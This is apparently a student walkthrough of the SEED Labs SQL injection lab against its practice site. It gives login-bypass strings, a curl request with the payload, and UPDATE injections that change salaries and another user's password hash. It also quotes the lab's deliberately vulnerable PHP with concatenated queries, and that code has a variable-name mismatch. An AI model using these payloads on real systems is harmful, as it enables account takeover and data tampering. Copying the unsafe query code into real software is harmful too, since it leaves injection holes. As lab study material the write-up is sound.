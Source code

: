 ### Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/hasseb001/SQLInjection/blob/main/task%201.png

Task 2:
--> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
### --> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
https://github.com/hasseb001/SQLInjection/blob/main/task%202.1.png

###--> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
https://github.com/hasseb001/SQLInjection/blob/main/task%202.2.png
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

### -> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
### --> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
https://github.com/hasseb001/SQLInjection/blob/main/task%202.3.png
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
### --> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
https://github.com/hasseb001/SQLInjection/blob/main/task%203.3.png
